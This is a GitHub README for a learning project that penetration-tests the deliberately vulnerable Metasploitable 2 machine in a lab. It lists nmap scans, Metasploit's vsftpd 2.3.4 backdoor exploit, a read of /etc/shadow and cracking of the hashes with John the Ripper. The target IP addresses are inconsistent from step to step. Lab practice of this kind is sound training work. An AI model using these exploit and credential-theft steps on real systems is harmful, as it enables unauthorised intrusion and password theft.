

# Penetration-Testing-Project
Objective:
To perform a penetration test on the target system, identify vulnerabilities, exploit them, and document the process for learning purposes.

Target Information:

    IP Address: 172.28.10.11
    OS: Linux (Metasploitable 2)
    Services Detected: FTP, SSH, Telnet, Smtp, Domain, Http, Rpcind, Netbios-SSN, Microsoft-ds,Exec, Login, Shell, Rmiregistry,Ingreslock,NFS, Ccproxy-ftp, Mysq, Postgresql, Vnc, X11, IRC, ajp13

# Project Description
This project demonstrates a full penetration testing workflow conducted on the intentionally vulnerable Metasploitable 2 virtual machine. The project covers reconnaissance, exploitation, and post-exploitation steps, showcasing practical skills in vulnerability identification and exploitation.

# Technologies Used
Hyper-V Manager, Virtual box, Linux, Nmap, Metasploit, John the ripper, 
# Steps or Feautures 
1. Reconnaissance (Information Gathering)

    Scanned the target system for open ports and services using nmap.

nmap -sS -Pn 178.28.10.11

Identified service versions and operating system details.

  

nmap -sV -O 178.28.10.11
2. Vulnerability Identification<

    Researched vulnerabilities associated with the detected services using:
        searchsploit for local exploit searches:

        searchsploit vsftpd 2.3.4

        Online databases such as Exploit-DB and CVE Details.

3. Exploitation

    Used Metasploit Framework to exploit the vsftpd 2.3.4 backdoor vulnerability:
        Launched Metasploit:

msfconsole

Selected the exploit:

use exploit/unix/ftp/vsftpd_234_backdoor

Configured the exploit:

        set RHOST 172.28.10.11
        exploit

    Successfully gained shell access to the target system.

4. Post-Exploitation

    Explored the system to gather sensitive information:
        Extracted /etc/shadow to obtain password hashes:

    cat /etc/shadow

Initiated password cracking using John the Ripper:

    john --wordlist=/usr/share/wordlists/rockyou.txt password_hash.txt

5. Documentation and Reporting

    Documented all findings, including vulnerabilities exploited, tools used, and commands executed.
    Provided recommendations to mitigate identified weaknesses.

Commands Used

Include a dedicated section in your GitHub for all commands used during the test. Here’s an example:

## Commands Used

### Reconnaissance
- `nmap -sS -Pn 172.28.11.10 `: Stealth scan to discover open ports.
- `nmap -sV -O 172.28.11.10`: Detect service versions and OS.

### Exploitation
- `msfconsole`: Launch Metasploit.
- `use exploit/unix/ftp/vsftpd_234_backdoor`: Select the exploit.
- `set RHOST 172.28.10.11`: Set the target IP.
- `exploit`: Execute the exploit.

### Post-Exploitation
- `cat /etc/shadow`: Extract password hashes.
- `john --wordlist=/usr/share/wordlists/rockyou.txt password_hash.txt`: Crack passwords.

